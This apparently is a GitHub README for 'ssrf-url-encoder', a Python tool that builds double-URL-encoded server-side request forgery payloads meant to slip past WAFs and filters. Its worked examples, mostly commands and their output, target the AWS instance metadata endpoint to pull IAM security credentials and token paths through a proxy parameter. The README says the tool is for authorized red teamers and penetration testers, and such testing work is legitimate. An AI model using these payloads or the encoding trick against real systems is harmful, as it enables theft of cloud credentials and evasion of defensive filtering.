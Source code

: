 # SSRF URL Encoder
`ssrf-url-encoder` is a Python-based utility designed to construct URL-encoded payloads for SSRF exploitation. It allows users to single encode, recursively decode, and construct complex SSRF payloads with custom proxy endpoints, HTTP methods, and headers.

## Features
- Construct SSRF payloads with custom proxy endpoints.
- Single encode or recursively decode URLs.
- Embed HTTP methods and headers into the payload structure.
- Save encoded payloads to a file for reuse.
- Verbose mode for step-by-step output.

## Usage
```bash
python3 ssrf-url-encoder.py --target <TARGET_URL> --proxy <PROXY_URL> [--method <METHOD_KEY=VALUE>] [--headers <HEADERS_KEY=VALUE>] [--single] [--decode] [--output <OUTPUT_FILE>] [--verbose]
```

## Arguments:
- `--target` (required): Target URL to encode or decode.
- `--proxy`: Proxy endpoint with parameter key, e.g., `?url=` or `?target=`.
- `--method`: Optional method parameter as key=value, e.g., `method=GET`
                     or `method=PUT`.
- `--headers`: Optional headers parameter as key=value, e.g.,
                     `headers=X-aws-ec2-metadata-token-ttl-seconds=21600`.
- `--single`: Single encode the target URL only.
- `--decode`: Recursively decode the target URL.
- `--output`: Save the encoded or decoded payload to a file.
- `--verbose`: Display step-by-step output for debugging.

### How It Works
The `ssrf-url-encoder` script constructs URL-encoded SSRF payloads by systematically encoding the target URL to achieve multiple encoding layers. This process is particularly useful when targeting applications that require double-encoded payloads to bypass filters or proxy constraints.

** Single Encoding Process**
- The target URL is first single encoded using standard URL encoding (`%` encoding). This prepares the URL for safe inclusion within a proxy endpoint or as a standalone payload.

**Hybrid Encoding Process (Achieving Double Encoding)**
1. **Initial Single Encoding of Target:**
   - The target URL is single encoded to prepare it for inclusion in the proxy structure.
   - Example:
     - Input: `http://example.com/resource`
     - Single Encoded: `http%3A%2F%2Fexample.com%2Fresource`

2. **Appending to Proxy URL:**
   - The single encoded target is then embedded within the proxy URL as the value of the query parameter defined by the user. This creates the intermediate URL structure.
   - Example:
     - Proxy Structure: `http://proxy.com/?url=`
     - Intermediate URL: `http://proxy.com/?url=http%3A%2F%2Fexample.com%2Fresource`

3. **Second Single Encoding (Achieving Double Encoding):**
   - The entire constructed proxy URL is then single encoded again to achieve the intended double encoding. This ensures that the payload is sufficiently obfuscated to bypass WAFs or other filtering mechanisms.
   - Example:
     - Intermediate URL: `http://proxy.com/?url=http%3A%2F%2Fexample.com%2Fresource`
     - Double Encoded: `http%253A%252F%252Fproxy.com%252F%253Furl%253Dhttp%25253A%25252F%25252Fexample.com%25252Fresource`

**Recursive Decoding**
- When the `--decode` flag is used, the script recursively decodes the payload until no further decoding is possible, ensuring that deeply nested encoded payloads are fully resolved.

## Output Examples
**1. Constructing SSRF Payload with Method and Headers**
```bash
python3 ssrf-url-encoder.py --target http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role --proxy 'http://127.0.0.1:10000/example-api-proxy/?url=' --method method=GET --headers 'headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}' --verbose --output encoded_payload.txt      
[+] Payload saved to: encoded_payload.txt
[INFO] Target URL encoded once: http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2Fiam%2Fsecurity-credentials%2Fexample-role
[INFO] Proxy URL constructed: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
[INFO] Final single encoded payload: http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```
```
cat encoded_payload.txt 
http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D
```

**2. Recursive Decoding of URL**
```bash
python3 ssrf-url-encoder.py --target http%3A%2F%2F127.0.0.1%3A10000%2Fexample-api-proxy%2F%3Furl%3Dhttp%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252Fiam%252Fsecurity-credentials%252Fexample-role%26method%3DGET%26headers%3D%7B%22X-aws-ec2-metadata-token%22%3A%22AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE%3D%3D%22%7D --decode
http://127.0.0.1:10000/example-api-proxy/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/example-role&method=GET&headers={"X-aws-ec2-metadata-token":"AQAEAIZ2Xm9LEU9CHnA-riXpyF1pKt83STDxhCPCCrw224gEXAMPLE=="}
```

**3. Single Encode a URL**
```bash
--target http://169.254.169.254/latest/api/token --single
http%3A%2F%2F169.254.169.254%2Flatest%2Fapi%2Ftoken
```

## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.

## Disclaimer
Use responsibly. This tool is intended for red teamers, security auditors, and penetration testers with proper authorization.
